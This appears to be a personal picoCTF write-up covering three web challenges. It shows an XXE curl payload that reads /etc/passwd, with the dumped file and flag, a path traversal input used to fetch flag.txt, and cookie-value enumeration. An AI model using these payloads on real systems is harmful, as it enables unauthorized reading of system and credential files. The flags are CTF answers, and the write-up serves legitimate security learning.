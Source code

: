 # Web Exploitation

* This is a domain I have very little experience in other than OASIS. So a Little bit of time will be taken to solve these + will have to lookup writeups If I hit a hard roadblock.

## SOAP

I had a dilemma whether to use burp suite or curl as I didnt have much experience in curl but since burp suite led me nowhere I just used these commands to get the flag after reading up on some resources on using curl.
Resource :  https://portswigger.net/web-security/xxe
```
satwik@Satwik:~/picoctf/cryptography/minirsa$ curl 'http://saturn.picoctf.net:59393//data' \
> -H 'Accept: */*' \
> -H 'Content-Type: application/xml' \
> --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
> --insecure
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```
Thus I got the flag : `picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`

## Forbidden Paths 
Since it is given that the flag is in the directory `/usr/share/nginx/html/ ` and the flag existed in the directory `/flag`. Since absolute files don't work you have to use a relative path.
The website contains a prompt that reads the file of whatever relative path is inputted. Therefore if you input `../../../../flag.txt`, we get the flag.

flag: `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

## Cookies

Since Im familiar with cookies due to OASIS CTF. 
I tried changing the cookie from -1 to 1

![alt text](/assets/cookies1.png)

But AS u can see it says its not the right cookie so I tried incrementing the value one by one and at 18 I found the flag.

![alt text](/assets/cookies2.png)




The flag : `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`


